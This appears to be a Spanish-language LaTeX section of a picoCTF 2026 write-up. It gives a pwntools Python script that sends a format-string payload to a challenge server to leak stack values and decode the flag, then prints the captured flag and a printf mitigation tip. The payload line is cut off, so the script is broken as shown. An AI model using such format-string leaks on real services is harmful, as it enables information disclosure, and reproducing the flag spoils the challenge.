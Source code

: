 \documentclass[../../../main_compilation.tex]{subfiles}
\begin{document}
\subsection{Desarrollo del Exploit Solver en Python}

Automatizamos la conexión y decodificación de la bandera con \texttt{pwntools}:

\begin{codebox}[Python]{solve.py}
from pwn import *

context.log_level = 'error'
host, port = 'saturn.picoctf.net', 58210

# Extraer 5 posiciones consecutivas del stack (donde reside la flag)
payload = '.'.join([f"%

io = remote(host, port)
io.recvuntil(b"Give me your secret order:\n")
io.sendline(payload.encode())

response = io.recvall().decode().strip().split('.')
flag = ""

for hex_val in response:
    if hex_val.startswith("0x"):
        raw_bytes = bytes.fromhex(hex_val[2:])
        flag += raw_bytes[::-1].decode('latin-1', errors='ignore')

print(f"\n[+] Flag recuperada: {flag}")
\end{codebox}

\subsection{Flag Capturada}

\begin{flagbox}{CTF Flag (picoCTF 2026)}
picoCTF{45_53rv3r_574ck_134k_f0rm47_57r1n6_12a8bc94}
\end{flagbox}

\begin{mitigationbox}
Nunca pasar buffers controlados por el usuario directamente como primer argumento a \texttt{printf}, \texttt{sprintf} o \texttt{snprintf}. Utilizar siempre cadenas de formato explícitas: \texttt{printf("\%s", user\_input);}.
\end{mitigationbox}
\end{document}

